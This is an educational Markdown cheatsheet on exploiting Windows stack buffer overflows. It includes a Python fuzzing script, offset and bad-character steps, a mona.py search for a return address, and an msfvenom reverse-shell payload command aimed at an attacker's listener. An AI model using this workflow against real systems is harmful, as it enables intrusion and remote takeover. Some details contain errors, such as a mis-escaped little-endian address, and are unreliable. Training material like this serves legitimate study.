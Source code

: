 ```yaml
---
title: "Buffer overflows"
author: "Me"
date: "January 26, 2022"
output: html_document
---
```


# Buffer overflows
{:.no_toc}

This cheatsheets aims to provide the methodology of exploiting a buffer overflow vulnerability.

Here's the content so far:

1. TOC
{:toc}
{:style="color:black; font-size: 150%;"}

# 1. Start the targeted application and attach a debugger to it.
On Windows, attach Immunity Debugger.
On Windows, attach EDB.

# 2. Fuzz the application to discover a BO vulnerability
Once the debugger is attached to the running process, we fuzz the application to see if it is vulnerable to buffer overflows.
Example Python PoC:

````
#!/usr/bin/python
import socket
import time
import sys

size = 100

while(size < 2000):
  try:
    print "\nSending evil buffer with %s bytes" % size

    buffer = "A" * size

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(("<Target IP>", <Target port>))
    s.send(buffer)
    
    s.close()
    
    size += 100
    time.sleep(3)
    
    print "\nDone!"
  except:
    print "Could not connect!"
    sys.exit()
````
With this script, we see the approximate number of bytes required to crash the application. Let's assume it is 800 for the sake of the example.
Then, we look at the CPU registers to see if they have been overwritten by our buffer of A's. If it is the case, the application may be vulnerable to BO.

# 3. Find the offset to control _EIP_
If in the previous step the value contained in the _EIP_ register got overwritten by A's, we need to know exactly which A's of the buffer it was.
We create a unique sequence of bytes with _msf-pattern_create_ (length 800 for the example):
````
msf-pattern_create -l 800
`````
We update the PoC with this new buffer, and launch the exploit. We look at the value contained in _EIP_ and determine the offset with _msf-pattern_offset_:
````
msf-pattern_offset -l 800 -q <value in EIP>
`````
Let's assume the offset is located at the byte 710. 
With this information, we modify the buffer to send 710 * A, 4 * B, and (800-710-4) * C. We make sure we indeed control EIP.


# 4. Find space for the shellcode
In this step, we inspect the different registers at the time of the crash to see if any of them points to or close to our buffer (of A's or C's). 
We then look at the available space, considering that a typicial reverse shell payload is approximately 350-450 bytes long.
If there isn't enough space, we can use a first stage shell code to specify another address in memory as well as to align some registers if necessary.

# 5. Find bad characters
Modify to PoC to include every possible character, from 0x00 to 0xff, in the buffer. This can be done either in the A's before EIP, or in the C's after it.
Ideally, we include them at a location where we can send the whole badchar array at once. If it is not possible, we split it in smaller chunks.

````
badchars = (
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
`````
We inspect the dump at the time of the crash to see if any of those characters disappeared, truncating the rest of the buffer. 
If it is the case, we remove it and repeat the process until everything works fine.

# 6. Find a return adress
Once we located space for our future payload as well as a register pointing towards it, we need to find a return address such as a _JMP ESP_, _JMP EAX_, and so on...
We use the _mona.py_ script to search in all the modules (DLLs) loaded by the running application:

````
!mona modules
````
In the list returned by this command, we must pay attention to two details:
- The base address at which the module is loaded can not contain any of the bad characters that were identified.
- We must chose a module that wasn't compiled with ASLR or DEP support.

Once we found a module, we can search within it for the instruction we're looking for. 
We need to specify the opcode of this latter, which can be obbtained with _msf-nasm_shell_:
````
msf-nasm_shell
````
For example to find the opcde of _JMP ESP_, we would simply type this instruction and the tool would give us the corresponding opcode, FFE4.
We can use _mona.py_ once again to find this instruction in the given module:
````
!mona find -s "\xff\xe4" -m "modulename"
`````
If mona finds the instruction in the module, we muust make sure its address doesn't contain any bad characters.
If everything is ok, we can replace the B's in EIP by the address of the instruction.
Note that we must pay attention to the architecture: However, most modern machines use little-endian. Therefore, we must write the address backwards.\\
Example: we found a _JMP ESP_ at the address 0x10935c71. In little endian, we will write \x71\x5c\93\x10.\\
In Immunity, we can then go to that address to make sure it is the correct instruction, set a bbreakpoint on it, and rerun the exploit.

# 7. Generate the shellcode
We use _msfvenom_ to generate the shellcode:

````
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<Kali IP> LPORT=<PORT> -f c -e x86/shikata_ga_nai -b “\x00\x0a\x0d\x25\x26\x2b\x3d"
````
This is an example payload that should be modified accordingly to the target OS, architecture, bad characters (specified after _-b_), wanted encoder, and so on...
We then place this shellcode in our PoC, and add a NOP slide before it. 
It can be useful to run the exploit with a breakpoint on the return address, so that we can jump into the into the instruction and do the final required modifications.


